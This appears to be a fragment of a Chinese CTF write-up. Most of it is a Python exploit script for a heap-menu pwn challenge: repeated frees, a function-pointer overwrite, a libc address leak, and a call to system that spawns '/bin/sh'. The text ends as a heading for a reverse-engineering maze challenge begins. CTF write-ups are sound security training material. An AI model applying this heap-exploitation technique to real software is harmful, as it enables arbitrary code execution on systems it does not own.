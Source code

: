 ```python
def add(namesize,name,summarysize,summary):
    cho(1)
    sla("name size: ",str(namesize))
    sa("name: ",name)
    sla("summary size: ",str(summarysize))
    sa("summary: ",summary)

def delete(idx):
    cho(2)
    sla("ID (0-10): ",str(idx))

def show(idx):
    cho(4)
    sla("ID (0-10): ",str(idx))

def edit(idx,size,summary):
    cho(3)
    sla("ID (0-10): ",str(idx))
    sla("summary size: ",str(size))
    sa("summary: ",summary)

add(0x10,'aaa',0x500,'bbb')

delete(0)
delete(0)
delete(0)
add(0x10,p64(0x4008D8),0x20,'/bin/sh\x00')

edit(0,0x20,'a')
edit(0,0x4b0,'b'*8)
show(0)
p.recv(8)
libc_base = leak_address()-0x3ec0c0
print(hex(libc_base))

system=libc_base+libc.sym['system']
delete(1)
delete(1)
add(0x10,p64(system),0x30,'c')
show(1)
ia()
```



## RESERVER

### Maze

迷宫题，看step2中主要逻辑
